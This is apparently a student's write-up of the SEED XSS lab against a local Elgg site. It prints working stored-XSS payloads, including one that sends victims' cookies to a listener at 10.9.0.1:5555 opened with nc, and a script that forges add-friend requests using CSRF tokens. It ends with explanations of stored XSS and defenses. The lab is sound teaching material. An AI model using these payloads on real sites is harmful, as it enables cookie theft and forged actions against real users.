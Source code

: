 # XSS Lab

## Question 1
### Task 1

First we logged in ```http://www.seed-server.com/```with the user ```alice``` and the corresponding password - ```seedalice```.
Then, in the profile page, we edit the ```Brief description``` to ```<script>alert(’XSS’);</script>```.

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task1_logbook7.png)

After making that change, when any user visits that profile, that code will be executed and an alert window will be displayed.

![Image 2.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task1_logbook7_2.png)

### Task 2

 We changed the  ```Brief description``` to ```<script>alert(document.cookie);</script>```.

 ![Image 3.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7.png)

 After making the change, when viewing the profile, an alert window was displayed showing the cookies of the user who viewed the profile.

 - Login as ```alice```:
  ![Image 4.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7_2.png)
 - Login as ```boby```:
   ![Image 5.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7_3.png)

### Task 3
 We changed the  ```Brief description``` to ```<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>```.
![Image 6.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task3_logbook7.png)
   Then we used the command ```nc -lknv 5555```to start a server that listens on port 5555, then we visited ```alice```'s profile logged as ```alice``` and then logged as ```boby```:
![Image 7.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task3_logbook7_1.png)
    That way, as the attacker, we were able to see the users' cockies.

### Task 4
We started by going to the ```samy```profile logged as ```alice```. We inspected it to find out what is sent to the server when a user adds a friend:
![Image 8.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7.png)
Then we completed the following code with the request to add ```samy```as friend, that we had discovered:
```
<script type="text/javascript">
window.onload = function () {
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    var Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
We logged as ```samy``` and  changed the ```Brief description```to that code:

![Image 9.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_1.png)

After that we logged as ```alice``` and checked her friends:

![Image 10.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_2.png)

We visited the ```samy```profile:
![Image 11.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_3.png)
Then reloaded the page, and suddently ```alice```become friends with ```samy```:
![Image 12.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_4.png)
![Image 13.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_5.png)

#### Question 1

Lines ➀ and ➁ are used to dynamically extract CSRF tokens that ensure requests to the server are legitimate and originate from an authenticated session. The ```__elgg_ts``` and ```__elgg_token``` are security tokens that prevent malicious users from forging requests on behalf of a victim. These tokens are typically unique per session, and by including them in the request, the server can verify that the request comes from an authorized user and not from a malicious script.

- Line ➀: This fetches the ```__elgg_ts``` token from the Elgg framework’s security object ```elgg.security.token.__elgg_ts```. It represents a timestamp value to prevent replay attacks.
- Line ➁: This fetches the ```__elgg_token``` token from the same security object ```elgg.security.token.__elgg_token```. It acts as a unique session identifier for preventing CSRF attacks.

Both of these tokens are crucial for the integrity of the request and ensure that the action being taken (such as adding a friend) is authorized.

#### Question 2

If the Elgg application only provides the Editor mode and does not allow switching to the Text mode, it can make it more challenging to launch an XSS attack. The Editor mode typically uses a rich-text editor that sanitizes user input to prevent the inclusion of dangerous HTML tags or JavaScript, which is often a barrier to XSS attacks.

However, it may still be possible to launch an attack under certain conditions:

- If the editor doesn't properly sanitize all input or allows certain HTML tags, a malicious script might still be injected through certain mechanisms (like embedding an image or a link that contains a payload).

- If there are flaws in how the application handles the input from the editor (such as improper encoding or filtering), a malicious actor might be able to inject malicious code without requiring access to the Text mode.

In summary, while the restriction to Editor mode makes it harder for attackers to directly insert JavaScript code, it does not completely eliminate the possibility of an XSS attack if the application doesn't implement strong input sanitization and output encoding.

### Question 2
The described attack can be classified as a Stored XSS attack because the malicious code is inserted into the ```Brief description``` of the user's profile. Once stored on the server, it will be executed every time someone else accesses that user's profile, without requiring direct interaction from the victim - the malicious script persists on the site and is executed each time that user's profile is accessed.

## Conclusion
This series of tasks highlights the risks of XSS and CSRF vulnerabilities. By injecting malicious scripts into user profiles, we demonstrated how attackers can steal sensitive data and manipulate user actions without direct interaction. It emphasizes the need for strong input sanitization, output encoding, and CSRF protection to prevent such attacks and secure web applications effectively.
